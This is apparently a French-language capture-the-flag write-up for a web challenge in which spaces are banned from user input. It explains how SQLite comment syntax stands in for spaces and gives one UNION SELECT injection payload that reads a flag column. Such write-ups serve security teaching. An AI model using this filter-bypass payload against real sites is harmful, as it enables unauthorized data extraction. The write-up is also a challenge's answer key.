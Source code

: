# SQL injection 9

> web

Author: [Alexandre-Xavier Labonté-Lamoureux (AXDOOMER)](https://github.com/axdoomer)

Bon, j'ai menti, ce n'était pas le dernier défi d'injection SQL. Le propriétaire du site web est vraiment tanné de se faire voler tous ses flags. Il reste un flag dans la colonne `flag` de la table `flag`, mais le propriétaire du site a interdit les espaces dans les champs d'input de l'utilisateur. En d'autres mots, votre injection SQL ne sera pas exécutée si elle contient des espaces. 

Maintenant que les espaces sont interdites, pouvez-vous trouver un moyen de quand même effectuer un injection SQL?

## Setup

Requirements:
- BurpSuite

# Writeup

Il faut trouver un moyen d'avoir des espaces sans en utiliser. Avec SQLite, on peut insérer des espaces en utilisant `/**/` dans une requête. 

`"/**/union/**/select/**/1,2,flag/**/from/**/flag--`

